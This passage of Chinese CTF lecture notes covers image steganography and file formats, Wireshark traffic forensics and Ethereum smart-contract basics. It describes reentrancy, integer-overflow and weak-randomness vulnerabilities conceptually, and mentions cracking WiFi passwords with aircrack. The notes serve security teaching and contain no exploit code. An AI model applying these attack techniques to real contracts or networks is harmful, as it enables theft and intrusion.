- img.size 图像大小，img.mode 图像模式
- img.convert(mode) 转换图像模式
- img.getpixel((x, y)) 获取像素点颜色
- img.putpixel((x, y), color) 设置像素点颜色
- np.array(img) 将图像转换为 numpy 数组
具体图像模式以及转换
-
'1'：黑白二值（0/255）；'L'：灰度（8 bit），'l'：32 bit 灰度
- L = 0.299 R + 0.587 G + 0.114 B
-
'P'：8bit 调色盘，获取的像素值是调色盘索引
- 'RGB'、'RGBA'
- 'CMYK'：转换时有色差，CMY = 255 - RGB，K = 0
- 'YCbCr'、'LAB'、'HSV' 等，转换时有复杂公式（可能出现新的隐写）
PIL 其他模块用途
- ImageDraw 用于绘制图像、绘制图形
- ImageChops 用于图像通道的逻辑运算
- ImageOps 用于图像整体的运算一类
- ImageFilter 用于图像的滤波处理
图像格式介绍¶
图像文件需要存储什么？¶
图像信息：宽高、色彩模式、色彩空间等
- EXIF 信息：拍摄设备、拍摄时间、GPS 信息等
像素数据：每个像素的颜色信息；二值、灰度、RGB、CMYK、调色盘等
- 对于标准 RGB 图像，每个像素需要 24 bits
- 对于一张 1080p 图像，需要 6.22 MB，4K 则需要 24.88 MB
- BMP 格式
压力给到了图像格式的压缩算法
- PNG 无损，JPEG 有损
- GIF 有损且只支持 256 色
- 新兴格式如 HEIF、WebP、AVIF 等
JPEG 文件格式¶

JPEG 使用分段的结构来进行存储，各段以 0xFF 开头，后接一个字节表示类型：
- FFD8（SOI）：文件开始
- FFE0（APP0）：应用程序数据段，包含文件格式信息（上图没有）
- FFE1（APP1）：应用程序数据段，包含 EXIF 信息（上图没有）
- FFDB（DQT）：量化表数据
- FFC0（SOF）：帧数据，包含图像宽高、色彩模式等信息
- FFC4（DHT）：huffman 表数据
- FFDA（SOS）：扫描数据，包含数据的扫描方式，huffman 表的使用方式等
- FFD9（EOI）：文件结束
JPEG 压缩原理¶
JPEG 的压缩原理是 DCT（离散余弦变换）+ Huffman 编码
- 由 RGB 转换到 YCbCr，然后减少 Cb、Cr 的采样率
-
将图像分块，每个块 8x8，进行 DCT 变换
- 将图像转换为频域，便于压缩高频部分
量化，将 DCT 变换后的系数除以量化表中的系数
- 再次减少高频部分的数据
- 根据不同的量化表，可以调整压缩质量
通过游程编码和 huffman 编码进行压缩
PNG 文件格式¶

文件头 89 50 4E 47 0D 0A 1A 0A | .PNG....
采用分块的方式存储数据
- 每块的结构都是 4 字节长度 + 4 字节类型 + 数据 + 4 字节 CRC 校验
- 四个标准数据块：IHDR、PLTE、IDAT、IEND
- 其他辅助数据块：eXIf、tEXt、zTXt、tIME、gAMA……
- eXIf 元信息，tIME 修改时间，tEXt 文本，zTXt 压缩文本
四种标准数据块：
-
IHDR：包含图像基本信息，必须位于开头
-
4 字节宽度 + 4 字节高度
- 1 字节位深度：1、2、4、8、16
- 1 字节颜色类型：0 灰度，2 RGB，3 索引，4 灰度透明，6 RGB 透明
- 1 字节压缩方式，1 字节滤波方式，均固定为 0
-
1 字节扫描方式：0 非隔行扫描，1 Adam7 隔行扫描
-
PLTE：调色板，只对索引颜色类型有用
- IDAT：图像数据，可以有多个，每个数据块最大 2 31 -1 字节
- IEND：文件结束标志，必须位于最后，内容固定
- PNG 标准不允许 IEND 之后有数据块
隐写进阶技术¶
图像大小修改¶
- PNG 图像按行进行像素数据的压缩，以及存储 / 读取
- 当解码时已经达到了 IHDR 中规定的大小就会结束
- 因此题目可能会故意修改 IHDR 中的高度数据，使之显示不全
- 恢复的话更改高度即可，同时注意 crc 校验码，否则可能报错
- binascii.crc32(data)，data 为从 IHDR 开始的数据
需要原图的图像隐写¶
有些情况下的图像隐写需要原图才能解密，这时第一步一般是 OSINT 搜索原图
- 使用识图工具进行搜索
- 一般需要搜原图的题题目描述会带有来源暗示之类的
- 多注意搜到的图像大小、质量，确保是真正的原图
接下来利用原图和隐写图像的差异进行分析
-
图像像素异或观察差异
- PIL 手动处理 / ImageChops.difference
- stegsolve image combiner
-
盲水印系列
- 给了打水印的代码的话直接尝试根据代码逆推即可
- 没有给代码的可能就是常见的现有盲水印工具
- guofei9987/blind_watermark
更多图像文件内容隐写手段¶
还有更多基于文件内容的隐写方式我们就不展开讲了，这里介绍一些可能的：
人为隐写
- JPEG 中 DCT 系数可以进行 LSB 隐写
- JPEG 中 DHT 定义的 huffman 表可能有冗余项，可以隐写
- PNG 中附加多余 IDAT 数据块的隐写（显示时被忽略）
- PNG 中使用调色盘时可以进行调色盘隐写（EZStego 隐写）
较成熟的工具隐写
- steghide、stegoveritas、SilentEye 等
- 一般找到了类似密码一类的大概率是工具题
音频文件格式简介¶
mp3：有损压缩
- 具体格式不多介绍，遇到了基本上也就是声音本身的隐写
wav：无损无压缩（waveform）
- 直接存储的是音频的波形数据，可操作性更高
- 文件结构也是分 chunk 的，有 RIFF、fmt、data 等
- 编码音频数据的 sample 也可以进行 LSB 隐写
flac：无损压缩，如果出现可能考虑转换为 wav
使用 Python 的 soundfile / librosa 库进行音频处理
Misc专题二：流量取证/区块链基础¶
约 2423 个字 7 行代码 3 张图片 预计阅读时间 10 分钟
流量取证¶
流量取证基础¶
网络流量（\(\rightarrow\) 回顾 web 基础）
- 应用层（HTTP/FTP/...） \(\rightarrow\) 表示层 \(\rightarrow\) 会话层（SSL/TLS/...）
- \(\rightarrow\) 传输层（TCP/UDP） \(\rightarrow\) 网络层（IP/ICMP/...）
- \(\rightarrow\) 数据链路层 \(\rightarrow\) 物理层
最终传输的仍然是二进制数据
- 捕获这些数据， 就可以分析得到正在进行的通信内容
流量取证一般就是拿到这些数据包（cap、 pcap、 pcapng 格式）进行分析
- 如有损坏的话修复数据包（少见， pcapfix 可以修复）
- 分析、 提取得到正在通信的内容（可能包含有效信息）
- 分析一些特定的、 不太常见的协议（比如一些自定义协议）
- 分析、 解密一些加密的协议（比如 VMess 等）
流量取证常用工具¶
- tcpdump 抓 TCP 包（Linux 命令行）
- Wireshark： 直接抓包， 得到物理层的全部数据并解析（开源）
- 自带命令行工具 tshark
- termshark： 类似 Wireshark 的开源命令行工具
- pyshark： tshark 的 Python 封装， 可以用 Python 脚本分析
- scapy： Python 库，
Wireshark 基本用法¶
浏览主界面的所有数据包， 大致了解都由什么协议组成
追踪流（追踪 TCP 流 / 追踪 HTTP 流）
- 得到某次通信的全部数据包， 并进行解析
- 另存为， 保存流数据
- 可以转换不同的显示形式（ASCII、 HEX、 Raw）
文件 > 导出， 提取某些数据包的流内容
统计部分
- 协议层次： 统计各层协议的数据包数量
- 流量图： 统计各个端口的流量， 可视化显示
- HTTP： 分组计数、 请求统计
Wireshark 过滤器¶
过滤协议： 直接输入 tcp/udp/http 等
过滤 ip： ip.addr == xx.xx.xx.xx 或 ip.src ip.dst
过滤端口： tcp.port == 80 或 tcp.srcport tcp.dstport
包长度过滤： frame.len ip.len tcp.len ……
http 过滤
- http.request.method == GET
- http.request.uri == "/index.php"
- http contains "flag"（相当于搜索功能）
HTTP 协议流量分析¶
分析统计信息
- 查看所有的 HTTP 请求 URI
- 分析 HTTP 往返的情况， 流量整体信息
具体分析某些请求： 利用过滤器
分析某一数据包具体内容
- 跟踪流， 跟踪 TCP 解析 TCP， 跟踪 HTTP 可以自动解压 gzip 等
- 分析请求头、 响应头、 请求体、 响应体等
具体题目示例
- 本次 lab 中的题目： SQL 盲注流量分析
UDP 协议¶
UDP 协议是无连接的， 不需要像 TCP 一样三次握手
和 TCP/HTTP 一样直接追踪分析就可以
常见的基于 UDP 的协议： DNS
具体题目示例
- 本次 lab 中的题目： dnscap
-
MRCTF 2022： Bleach!
- 基于 UDP 的 RTP 协议， 需要手动选择进行解析
- RTP 是一种音视频传输协议， 可以得到音频流
- wav 音频流中 LSB 包含隐写图片
其他协议¶
ICMP 协议： ping
- 某时也会带有一些信息， 可以进行进一步分析
OICQ 协议： QQ 使用， 是加密的， 但是可以看到双方 QQ 号等
WIFI 协议（IEEE 802.11）
- 可以使用 Linux aircrack 套件爆破密码
- 有了密码后可以在 Wireshark 中设置并解密流量
USB 协议
- 安装了 USBcap 之后可以在 Wireshark 中捕获 USB 流量
- 有工具可以解析流量， 绘制鼠标轨迹， 得到按键信息等
其他加密协议
- VMess， 需要读文档 / 源码， 实现解密
- 例题： 强网杯 2022 Quals 谍影重重
以太坊区块链基础¶
以太坊模型全览 - 区块与世界状态¶

每个区块包含三颗 Merkle 树根节点
- stateRoot 即世界状态树根节点， 状态是一组用户状态的组合
区块由“矿工”或“验证者”将交易打包形成， 后广播到网络中
- 每条交易会引发世界状态的转变， 消耗一定 gas
以太坊模型全览 - 交易与世界状态转变¶

每一条交易都会引起状态的改变
多个交易打包到一起， 最终状态就是新区块存储的状态
交易信息中包含 hash/v/r/s 为交易签名， 用于验证交易的合法性
合约在 EVM 上执行， 执行过程中也有各种漏洞
账户¶
外部账户（Externally Owned Account）
-
有一对公私钥， 用于签署交易
- 私钥是随机生成的 256 位数（32 字节）
- 公钥由私钥经过 ECDSA 算法计算而来， 是一个 64 字节的数
- 地址由公钥经过 Keccak-256 哈希后取前 20 字节得到

合约账户（Contract Account）
- 由 EOA 通过交易创建的账户， 其中包含合约代码
- 合约可以存储、 拥有以太币
- 向合约账户发送交易 \(\rightarrow\) 调用合约中的函数
- 合约本身不能主动发起交易， 但可以在被调用时向外发送交易
交易¶
一条交易包含以下内容：
- from： 交易发送者地址
- to： 交易接收者地址， 如果为空则表示是在创建智能合约
- value： 交易金额， 即发送方要给接收方转移的以太币数量（wei 为单位）
- data： 交易数据， 如果是创建智能合约则是智能合约代码， 如果是调用智能
- 合约则是调用的函数名和参数
- gasPrice： 交易的 gas 价格， 即每单位 gas 的价格（wei 为单位）
- gasLimit： 交易的 gas 上限， 即交易允许执行的最大 gas 数量
- nonce： 交易的序号， 即发送者已经发送的交易数量
除此之外发送的交易数据包还需要包含：
- hash： 交易的哈希值， 由前面的内容和 chainId 计算得到
- v、 r、 s： 交易签名的三个部分， 由发送者私钥对交易哈希值进行签名得到
以太币单位： https://converter.murkin.me/
关于链与 faucet¶
公开链： 真实的交易
- 通过 https://etherscan.io/ 查看
- 主网（mainnet） ： 真正的金钱交易， 很少使用
-
测试链： Sepolia / Holesky 链， 可以通过 faucet 获取免费代币
- https://sepolia-faucet.pk910.de/
- Ethernaut 等大型公开合约 CTF 平台会使用
私链： 自己搭建的链， 模拟真实的链
- 一般 CTF 题目都使用私链部署
- 可以通过 geth 等工具部署私链
more¶
- https://note.tonycrane.cc/ctf/blockchain/eth/basic/
- https://slides.tonycrane.cc/data-sec-pre/
- https://ethereum.org/en/developers/docs/
智能合约安全基础¶
关于合约¶
合约的创建和调用都通过交易来进行
合约调用：
- data 字段为编码后的函数名（selector）和参数， 称为 calldata
- selector 是函数签名 keccak256 的前四个字节
- 不存在对应 selector 则会调用 fallback 函数， 还不存在则 revert
合约存储： 全公开存储， 都在链上， 可以 getStorageAt 查看
revert： 回滚， 所有当前调用中的状态改变全都复原
合约编译后得到字节码在 EVM 上运行：
Solidity 语言¶
https://note.tonycrane.cc/ctf/blockchain/eth/solidity/
官方文档：https://docs.soliditylang.org/en/latest/index.html
以太坊官方的编写智能合约的语言
IDE：https://remix.ethereum.org/
通过 contract 关键字声明一个合约
通过 function 定义一个可以调用的函数
- public、 internal、 external、 private
- 属性（状态）会自动创建 getter 函数
- 通过 view、 pure 关键字定义一个不改变状态的函数
通过 payable 关键字定义一个可以接收以太币的函数
特殊函数： constructor、 fallback、 receive
常见漏洞示例¶
整型溢出¶
Ethernaut 题目 Token：
- balances 字典是 uint256， 无符号减法有溢出风险
- 给任意地址转账， 原余额 20 Token， 转 21 个， 则 balances 会变的巨大
- 通过事先检查或者使用 SafeMath 库可以避免
- 新版本 solidity 自动开启了溢出检查
重入攻击¶
Ethernaut 题目 Re-entrancy， 很经典的智能合约漏洞，例如如下合约：
withdraw 时先转钱再更新 balances
转钱的时候会进入到目标合约的 fallback 函数， 可以再次调用 withdraw
再次调用时 require 检查的仍然是老的 balances
这样可以把钱取空
伪随机数¶
区块链需要所有以太坊节点验证交易计算出相同结果达成共识
无法实现真随机数
伪随机可以破解：
- 利用区块变量作为随机数： 可以获取
- 利用 blockhash 作为随机数： 只保留最近 256 个区块
- 回滚攻击： 不断 revert 来猜随机数
Ethernaut 题目 Coin Flip， 留作作业。
其他常见漏洞： https://note.tonycrane.cc/ctf/blockchain/eth/vuln/
CTF 比赛中的私链题目交互¶
一般会过滤掉大部分 geth rpc 接口
- 防止其他队伍扒链蹭车 / 重放
- 白名单示例可见 chainflag/solidctf 中的白名单，一般就是这些
- geth 手动操作很复杂（只能发 raw）, remix/metamask 可能会无法连接
可以 / 推荐通过 web3.py 进行交互
- 通过 eth.contract 和 abi 与 addr/bytecode 创建合约对象
- 通过 contract.functions.f().build_transaction() 构建交易
- 通过 eth.account.sign_transaction(txn, privateKey) 签名
- 得到 rawTransaction 后 eth.send_raw_transaction(raw) 发送
- 通过 eth.wait_for_transaction_receipt(hash) 等待交易完成
- 无需交易的 view 函数可以直接 contract.functions.f().call()
https://note.tonycrane.cc/ctf/blockchain/eth/basic/#_15
more¶
Read more: https://note.tonycrane.cc/ctf/blockchain/eth
以太坊基础知识： 账户、 交易、 合约、 区块等， 及其原理
Solidity 语言： 最常用的智能合约语言， 以太坊官方语言
- 了解其语法、 类型， 以及合约运行的整体逻辑
- 了解一些 ERC 标准（目的是看懂题目的合约）
以太坊虚拟机（EVM） ： 执行合约字节码的栈结构虚拟机
- 了解其运行原理， 与账户、 合约、 交易的关系， 反汇编、 反编译的方法
交互、 测试环境： geth、 Remix、 MetaMask、 web3.js、 web3.py 等
常见合约漏洞： 整型溢出、 重入、 伪随机、 薅羊毛、 非预期的远程调用……
入门做题平台：
- ethernaut
- 校巴上的几道 Blockchain 题建议有一定基础了解之后再做
Ended: Misc
Ended: 专题周
Ended: CTF
Others ↵
写点啥好呢¶
约 83 个字 预计阅读时间不到 1 分钟
Note
This is a note.
Tip
This is a tip.
Answer
This is an answer.
Warning
This is a warning.
Question
This is a question. 42.
Info
This is an info.
Discussion
This is a discussion.
Danger
This is a danger.
Example title
This is an example.
Abstract title
This is an abstract.
Summary title
This is a summary.
Quote title
This is a quote.
Page
This is a page.
Success
This is a success.
Ended: Others
tags¶
约 1 个字 预计阅读时间不到 1 分钟